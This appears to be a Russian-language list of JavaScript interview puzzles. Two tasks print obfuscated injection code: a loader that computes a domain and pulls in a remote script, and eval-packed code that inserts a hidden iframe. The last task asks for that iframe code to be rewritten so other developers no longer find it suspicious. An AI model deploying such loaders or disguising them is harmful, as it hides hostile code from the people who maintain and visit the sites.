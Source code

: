 Здесь будет различная подборка тестовых заданий, которые я встречал. 


# 1) задание первое:
        раздуть код 
                name='foo';alert(window.name);
        до одного килобайта.

# 2) задание второе:
        Объяснить, с какого адреса данный код
        ```
              <script type="text/javascript" id="73901220182">
                (function(d,c,b,a,e){
                    with(new Image)onload=function(){with(this)a.push((1E6+1E3*width+1*height+a).slice(-6).replace(/\d{2}/g,
                    function(a){return"%"+(+a+97).toString(16)+c.split("")[a%6]})),a.push("com"),a=["/",unescape(a.join(".")),
                 [(new Date).getTime(),b.domain,e,0].join(",")],b.body.appendChild(b.createElement(c)).src=a.join(a[0])},src=d
                })("http://serve.oxystatic.com/init","script",document,[],73901220182)
                </script>
        ```
        подгрузит скрипт, и почему.

# 3) задание третье:
        Почему код по ссылке
        ```javascript
          var _0x371a=["\x30\x2E\x31\x7C\x7C\x30\x2E\x35\x28\x27\x3C\x31\x3E\x27\x29\x3B\x32\x3D\x30\x2E\x31\x2E\x36\x28\x30\x2E\x34\x28\x27\x33\x27\x29\x29\x3B\x32\x2E\x37\x3D\x27\x38\x3A\x2F\x2F\x64\x2E\x63\x2F\x62\x27\x2C\x32\x2E\x39\x2E\x61\x3D\x27\x65\x27\x3B","\x7C","\x73\x70\x6C\x69\x74","\x64\x6F\x63\x75\x6D\x65\x6E\x74\x7C\x62\x6F\x64\x79\x7C\x6E\x73\x6F\x64\x6B\x7C\x69\x66\x72\x61\x6D\x65\x7C\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74\x7C\x77\x72\x69\x74\x65\x7C\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64\x7C\x73\x72\x63\x7C\x68\x74\x74\x70\x7C\x73\x74\x79\x6C\x65\x7C\x64\x69\x73\x70\x6C\x61\x79\x7C\x31\x32\x33\x34\x35\x36\x7C\x67\x6C\x7C\x67\x6F\x6F\x7C\x6E\x6F\x6E\x65","\x5C\x62","\x67","\x72\x65\x70\x6C\x61\x63\x65"];eval(function(_0x1019x1,_0x1019x2,_0x1019x3,_0x1019x4,_0x1019x5,_0x1019x6){while(_0x1019x3--){if(_0x1019x4[_0x1019x3]){_0x1019x1=_0x1019x1[_0x371a[6]]( new RegExp(_0x371a[4]+_0x1019x3.toString(_0x1019x2)+_0x371a[4],_0x371a[5]),_0x1019x4[_0x1019x3])}};return _0x1019x1;}(_0x371a[0],15,15,_0x371a[3][_0x371a[2]](_0x371a[1])));
      ```
        выглядит подозрительно?
        Переписать его так, чтобы он больше не вызывал подозрений у других разработчиков.
